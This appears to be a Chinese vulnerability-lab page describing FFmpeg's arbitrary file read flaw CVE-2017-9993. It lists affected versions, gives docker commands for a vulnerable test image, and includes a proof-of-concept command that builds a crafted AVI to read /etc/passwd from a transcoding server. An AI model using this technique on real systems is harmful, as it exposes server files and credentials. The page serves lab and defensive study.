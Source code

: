 ```yaml
---
layout: post
title: "FFmpeg 文件读取漏洞(CVE-2017-9993)"
date: 2017-06-28 22:15:32 +0800
image: '/assets/img/'
description: '程序未能正确的限制HTTP Live Streaming文件名扩展和demuxer名。攻击者可借助特制的播放列表数据利用该漏洞读取任意文件。'
main-class: 'hole'
color: '#B31917'
tags:
- FFmpeg
- Arbitrary-File-Read
- Information-Disclosure
categories:
- FFmpeg
twitter_text: '程序未能正确的限制HTTP Live Streaming文件名扩展和demuxer名。攻击者可借助特制的播放列表数据利用该漏洞读取任意文件。'
introduction: '程序未能正确的限制HTTP Live Streaming文件名扩展和demuxer名。攻击者可借助特制的播放列表数据利用该漏洞读取任意文件。'
---
```


### 漏洞信息

FFmpeg是一个完整的跨平台解决方案，用于记录、转换流式传输音频和视频，可用于预览生成和视频转换的视频编码软件。已知FFmpeg可以处理可能包含对外部文件的引用的HLS播放列表,可以使用AVI文件中的GAB2字幕块来触发此功能，再通过XBIN编解码器检索转换节点的本地文件，从而导致了可以在转码后的视频里包含了本地文件.

### 影响范围

小于 2.8.12, 3.0.x 以及 3.1.x 版本小于 3.1.9, 3.2.x 小于 3.2.6, 以及 3.3.x 版本小于 3.3.2

### 镜像信息

类型 | 值
:-:|:-:
FFmpeg | 3.1.3
HTTP 端口 | 80
镜像 tag | f_ffmpeg_1

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:f_ffmpeg_1
 ```

2. 启动环境
 ```bash
$ docker run -d -p 8000:80 medicean/vulapps:f_ffmpeg_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:8000 


### POC

> 假如目标地址为： http://127.0.0.1:8000/

使用该脚本用于生成 POC: https://github.com/neex/ffmpeg-avi-m3u-xbin

以读取 `/etc/passwd` 为例：

1.生成特殊的视频文件

```bash
$ python3 gen_xbin_avi.py file:///etc/passwd passwd.avi
```

2.上传 [passwd.avi](./passwd.avi) 到目标，即可看到如下结果：

![](https://github.com/Medicean/VulApps/raw/master/f/ffmpeg/1/poc.png)


### 相关链接

* [CVE-2017-9993 Detail](https://nvd.nist.gov/vuln/detail/CVE-2017-9993)
* [ffmpeg-avi-m3u-xbin](https://github.com/neex/ffmpeg-avi-m3u-xbin)
* [FFmpeg 安全问题讨论](http://paper.seebug.org/338/)
